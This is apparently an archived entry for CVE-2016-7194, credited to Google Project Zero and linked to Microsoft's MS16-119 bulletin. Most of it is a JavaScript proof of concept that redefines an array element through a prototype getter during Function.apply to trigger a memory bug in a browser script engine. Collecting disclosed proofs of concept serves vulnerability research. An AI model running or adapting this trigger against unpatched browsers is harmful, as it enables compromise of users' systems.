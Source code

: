 # CVE-2016-7194

- Report: Aug 2016
- Fix: Oct 2016
- Credit: Natalie Silvanovich, Google Project Zero

## PoC

```javascript
var t = new Array(1,2,3);

function f(){

var h = [];
var a = [...arguments]
for(item in a){
	var n = new Number(a[item]);
	if( n < 0){

	n = n + 0x100000000;
	}
	h.push(n.toString(16));
}

//alert(h);
}



var q = f;

t.length = 20;
var o = {};
  Object.defineProperty(o, '3', {
    get: function() {
      var ta = [];
      ta.fill.call(t, "natalie");
      return 5;
    }
  });

t.__proto__ = o;

var j = [];
var s = f.apply(null, t);
```

## Reference

- [Microsoft](https://technet.microsoft.com/library/security/ms16-119)
- [Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=920)
